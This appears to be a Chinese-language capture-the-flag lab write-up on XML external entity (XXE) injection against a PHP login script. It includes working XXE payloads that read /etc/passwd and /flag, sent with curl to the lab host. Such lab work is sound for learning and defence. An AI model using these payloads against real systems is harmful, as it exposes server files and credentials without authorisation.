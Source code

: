 # lab_XXE

1. 這題也因為可以看到 Source Code，因此也可以直接去理解程式碼，它是使用 PHP 處理 XML 資料，會從 **`php://input`** 讀取資料並進行 urldecode，接著使用 DOMDocument 的 loadXML() 方法載入資料。如果載入失敗，程式會停止執行並顯示原始程式碼。如果載入成功，程式會將資料轉換為 simplexml 物件，並擷取其中的 "user"。最後，會顯示 "You have logged in as user $user"。

![截圖 2023-01-05 下午1.51.27.png](lab_XXE%20b4253c985e604ef5b779b38b86f61bf0/%25E6%2588%25AA%25E5%259C%2596_2023-01-05_%25E4%25B8%258B%25E5%258D%25881.51.27.png)

1. 所以這題我們要上傳一段資料進去，讓他讀取完資料後可以回傳 $user 的值，而 user 的值，我們可以透過上傳的檔案去控制，首先我們先構造一段 xml 檔去可以去讀取檔案內容。然後使用 
    
    `curl [http://h4ck3r.quest:8604](http://h4ck3r.quest:8604/) -d @read_local_file.xml`傳入檔案，然後就可以成功讀取 “/etc/passwd”。
    
    ```xml
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE ANY [
    <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <test>
        <user>&xxe;</user>
    </test>
    ```
    
    ![截圖 2023-01-05 下午2.07.37.png](lab_XXE%20b4253c985e604ef5b779b38b86f61bf0/%25E6%2588%25AA%25E5%259C%2596_2023-01-05_%25E4%25B8%258B%25E5%258D%25882.07.37.png)
    

1. 因為已經可以讀檔，接下來就`curl [http://h4ck3r.quest:8604](http://h4ck3r.quest:8604/) -d @payload.xml`
直接嘗試讀取根目錄下的 /flag 檔案，然後就成功獲得 FLAG。
    
    ```xml
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE Any [
    <!ENTITY xxe SYSTEM "file:///flag"> ]>
    <test>
        <user>&xxe;</user>
    </test>
    ```
    
    ![截圖 2023-01-05 下午2.19.59.png](lab_XXE%20b4253c985e604ef5b779b38b86f61bf0/%25E6%2588%25AA%25E5%259C%2596_2023-01-05_%25E4%25B8%258B%25E5%258D%25882.19.59.png)